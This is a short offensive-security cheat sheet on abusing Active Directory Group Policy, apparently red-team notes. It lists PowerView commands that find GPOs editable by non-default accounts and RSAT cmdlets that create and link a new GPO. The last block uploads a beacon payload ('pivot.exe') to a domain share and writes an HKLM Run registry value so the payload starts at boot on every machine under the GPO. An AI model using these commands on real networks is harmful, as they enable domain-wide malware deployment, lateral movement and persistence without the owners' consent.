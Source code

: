 ```
powershell Get-DomainComputer | ? { $_.DistinguishedName -match "OU=<OU HERE>" } | select DnsHostName
```

This query will return any GPO in the domain, where a 4-digit RID has **WriteProperty**, **WriteDacl** or **WriteOwner**. Filtering on a 4-digit RID is a quick way to eliminate the default 5xx results.

```
powershell Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|WriteDacl|WriteOwner" -and $_.SecurityIdentifier -match "S-1-5-21-<DOMAIN SID>-[\d]{4,10}" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl
```

To resolve the ObjectDN:

```
powershell Get-DomainGPO -Name "<ObjectDN>" -Properties DisplayName
```

#### Remote Server Administration Tools (RSAT)

The GroupPolicy module has several PowerShell cmdlets that can be used for administering GPOs, including:

* New-GPO: Create a new, empty GPO.
* New-GPLink: Link a GPO to a site, domain or OU.
* Set-GPPrefRegistryValue: Configures a Registry preference item under either Computer or User Configuration.
* Set-GPRegistryValue: Configures one or more registry-based policy settings under either Computer or User Configuration.
* Get-GPOReport: Generates a report in either XML or HTML format.

Create GPO with RSAT

```
powershell New-GPO -Name "Test GPO" | New-GPLink -Target "OU=<OU>,DC=<Domain>,DC=<Domain>,DC=<Domain>"
```

Being able to write anything, anywhere into the HKLM or HKCU provides the ability to gain perisistence on every hosy apart of the GPO

```
# Find Domain Share
powershell Find-DomainShare -CheckShareAccess

# Drop beacon payload off
cd \\dc\software
upload C:\Payloads\pivot.exe

# create registry value to run payload on boot in new GPO
powershell Set-GPPrefRegistryValue -Name "Test GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "C:\Windows\System32\cmd.exe /c \\dc\software\pivot.exe" -Type ExpandString
```

